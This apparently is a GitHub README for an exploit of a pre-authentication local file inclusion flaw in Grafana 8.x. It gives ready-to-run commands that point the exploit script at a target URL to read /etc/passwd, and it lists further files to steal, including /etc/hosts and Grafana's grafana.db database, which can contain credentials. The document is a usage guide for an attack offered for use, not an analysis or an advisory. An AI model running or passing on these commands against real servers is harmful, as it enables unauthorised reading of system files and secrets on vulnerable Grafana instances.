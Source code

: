 # Grafana-LFI-8.x
Exploit grafana Pre-Auth LFI

## How to use

```
python3 grafana-exploit.py http://site.com /etc/passwd
```
Or
```
python3 grafana-exploit.py http://site:8080 /etc/passwd
```

Interesting files

```
/etc/passwd

/etc/hosts

/var/lib/grafana/grafana.db
```
